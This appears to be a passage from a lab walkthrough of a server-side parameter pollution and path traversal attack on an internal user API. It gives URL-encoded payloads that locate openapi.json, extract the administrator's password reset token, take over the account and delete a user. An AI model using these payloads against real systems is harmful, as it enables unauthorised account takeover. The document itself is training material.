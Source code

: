 3. Truncating the request causes a 404 error (`username=administrator%2f..%2fadministrator%23`)
```JSON
{
  "type": "error",
  "result": "Invalid route. Please refer to the API definition"
}
```
4. Directory traverse to web root and we get a different error (`username=administrator%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f`)
```json
{
  "error": "Unexpected response from API server:\n<html>\n<head>\n    <meta charset=\"UTF-8\">\n    <title>Not Found<\/title>\n<\/head>\n<body>\n    <h1>Not found<\/h1>\n    <p>The URL that you requested was not found.<\/p>\n<\/body>\n<\/html>\n"
}
```
5. Fuzz for API documentation using intruder with the API documentation wordlist
- Remember to include the URL fragment at the end of your payload
- We get a successful hit for `openapi.json` - (`username=administrator%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fopenapi.json%23`)
```json
{
  "error": "Unexpected response from API server:\n{\n  \"openapi\": \"3.0.0\",\n  \"info\": {\n    \"title\": \"User API\",\n    \"version\": \"2.0.0\"\n  },\n  \"paths\": {\n    \"/api/internal/v1/users/{username}/field/{field}\": {\n      \"get\": {\n        \"tags\": [\n          \"users\"\n        ],\n        \"summary\": \"Find user by username\",\n        \"description\": \"API Version 1\",\n        \"parameters\": [\n          {\n            \"name\": \"username\",\n            \"in\": \"path\",\n            \"description\": \"Username\",\n            \"required\": true,\n            \"schema\": {\n        ..."
}
```
- This basically tells us we can interact with the path `/api/internal/v1/users/{username}/field/{field}`
6. `forgotPassword.js` file reveals some information about a potentially interesting field name
```javascript
forgotPwdReady(() => {
    const queryString = window.location.search;
    const urlParams = new URLSearchParams(queryString);
    const resetToken = urlParams.get('reset-token');
    if (resetToken)
    {
        window.location.href = `/forgot-password?passwordResetToken=${resetToken}`;
    }
```
7. First payload returns error (`username=administrator%2ffield%2fpasswordResetToken%23`)
```json
{
  "type": "error",
  "result": "This version of API only supports the email field for security reasons"
}
```
8. Use directory traversal and specify the exact path (`username=administrator%2f..%2f..%2f..%2f..%2f..%2fapi%2finternal%2fv1%2fusers%2fadministrator%2ffield%2fpasswordResetToken%23`)
```json
{
  "type": "passwordResetToken",
  "result": "ikd1pqpebrgbn719plgeksljjbm38bdd"
}
```
9. Navigate to password reset URL
10. Change administrator's password
11. Login > Delete carlos
